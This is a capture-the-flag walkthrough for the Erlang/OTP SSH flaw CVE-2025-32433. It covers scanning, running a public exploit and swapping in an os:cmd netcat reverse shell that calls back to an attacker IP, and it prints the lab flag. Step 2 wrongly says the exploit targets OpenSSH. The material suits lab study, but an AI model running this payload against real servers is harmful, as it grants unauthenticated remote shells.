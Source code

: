 # <div align="center">Erlang/OTP SSH: CVE-2025-32433</div>
<div align="center">Learn about and exploit Erlang/OTP SSH CVE-2025-32433 in a lab setup.</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/b452eef7-47a9-4d7c-8d81-766659f06f73" height="200"></img>
</div>

### Task 1. Introduction

Erlang is a programming language made for building reliable, real-time systems that can handle many users at once. It was originally created by Ericsson for telecom use but is now used in many industries to build distributed systems.

OTP (Open Telecom Platform) is a set of tools and libraries that work with Erlang to help build these systems. Even though it started in telecom, OTP is now used more broadly for any kind of distributed application. Together, they're often called Erlang/OTP.

Erlang is used by many companies for product development and by universities for teaching and research.

One part of OTP is the SSH module, which lets Erlang systems use secure shell access and transfer files safely.

Recently, a critical vulnerability (CVE-2025-32433) was found in the Erlang/OTP SSH. It allows attackers to run code on the system without logging in. This issue was discovered by researchers at Ruhr University Bochum and has a CVSS score of 10.0, which means it’s extremely serious.

## Task 2: Exploitation Walkthrough

### Step 1: Reconnaissance

We begin by performing an initial service enumeration using Nmap:

```bash
nmap 10.10.237.184 -sV -sC
```

**Nmap Output Summary:**
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     Erlang/5.2.9
2222/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.9
```

The system is running two SSH services:
- Port **22**: `SSH-2.0-Erlang/5.2.9`
- Port **2222**: `OpenSSH 9.6p1 (Ubuntu)`

---
### Step 2: CVE Exploitation

We will target the outdated OpenSSH service using a public exploit: **CVE-2025-32433**.

Clone the exploit from GitHub:
```bash
git clone https://github.com/ProDefense/CVE-2025-32433
cd CVE-2025-32433
```

Now, configure the IP and port in the exploit script as per the target:

![Configuring exploit](https://github.com/user-attachments/assets/ce2f79c8-7c53-42c1-aabf-8dc912c4bee4)

Run the exploit:
```bash
python3 CVE-2025-32433.py
```

**Expected Output:**
- Confirmation that the exploit has been sent
- A banner or response from the SSH server
- Confirmation that `/lab.txt` has been written

![Exploit run output](https://github.com/user-attachments/assets/987f3e81-c22c-421b-99a1-3f197161cd36)

---
### Step 3: Reverse Shell Execution

To escalate and gain a reverse shell, modify the payload in the exploit to use Erlang's `os:cmd()` for command execution:

![2025-04-25_14-12](https://github.com/user-attachments/assets/987f3e81-c22c-421b-99a1-3f197161cd36)

Replace with:

```erlang
os:cmd("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.46.171 8000 >/tmp/f | nc 10.17.46.171 4444").
```

![Payload injection](https://github.com/user-attachments/assets/d8275718-5035-4378-b5c9-99a725aaba3b)

Set up two Netcat listeners on the attack machine:

**Terminal 1**:
```bash
nc -lnvp 4444
```

**Terminal 2**:
```bash
nc -lnvp 8000
```

Once executed, you should receive a shell connection:

![Netcat Shell Received](https://github.com/user-attachments/assets/fc348189-b7d1-46c1-9733-7cab7eb73505)

---
### Step 4: Post-Exploitation

Now we are inside the system.

#### Shell Access Confirmation:

![Shell confirmation](https://github.com/user-attachments/assets/3b583013-2a6f-4b94-8cb3-7acf43caeb05)

#### Retrieve User Flag:

```bash
cat /home/user/flag.txt
```

![Flag](https://github.com/user-attachments/assets/dc62f636-3236-4a85-96a5-353f53825703)

```
THM{U57U3P5KnR}
```

#### Confirm Hostname:
```bash
uname -a
```
```
c7b79fd068ba
```
![Hostname](https://github.com/user-attachments/assets/c739d61f-291f-4dfd-9c4c-0bc512aefc9d)

